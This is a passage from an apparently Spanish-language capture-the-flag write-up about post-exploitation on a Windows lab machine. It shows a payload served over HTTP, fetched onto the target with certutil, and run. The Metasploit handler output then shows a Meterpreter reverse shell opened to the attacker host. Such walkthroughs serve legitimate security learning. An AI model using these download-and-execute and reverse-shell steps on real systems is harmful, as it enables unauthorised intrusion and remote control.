 - Ahora nos pasamos el `.exe` a la máquina victima.

```bash
➜  content python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- Ahora lo descargamos y lo metemos a la ruta **/temp**.

```bash
c:\Users\svc_minecraft\server\plugins>certutil -urlcache -f http://10.10.14.63:8080/reverse.exe %temp%/reverse.exe
certutil -urlcache -f http://10.10.14.63:8080/reverse.exe %temp%/reverse.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

- Allí lo tenemos.

```bash
c:\Users\svc_minecraft\server\plugins>cd %temp%
cd %temp%

C:\Users\SVC_MI~1\AppData\Local\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of C:\Users\SVC_MI~1\AppData\Local\Temp

06/25/2024  04:37 PM    <DIR>          .
06/25/2024  04:37 PM    <DIR>          ..
11/21/2023  03:13 AM             6,830 au-descriptor-1.8.0_391-b13.xml
06/25/2024  03:28 PM    <DIR>          hsperfdata_svc_minecraft
06/25/2024  03:28 PM            56,670 jusched.log
11/21/2023  03:08 AM    <DIR>          Low
06/25/2024  03:40 PM    <DIR>          RDRD0D4.tmp
06/25/2024  04:37 PM             7,168 reverse.exe
               3 File(s)         70,668 bytes
               5 Dir(s)   3,658,072,064 bytes free

C:\Users\SVC_MI~1\AppData\Local\Temp>
```

- Ahora lo ejecutamos.

```bash
C:\Users\svc_minecraft\server\plugins>start %temp%/reverse.exe
start %temp%/reverse.exe
```

- Y listo.

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.63:443
[*] Sending stage (201798 bytes) to 10.10.11.249
[*] Meterpreter session 1 opened (10.10.14.63:443 -> 10.10.11.249:49708) at 2024-06-25 17:43:58 -0600

meterpreter >
```
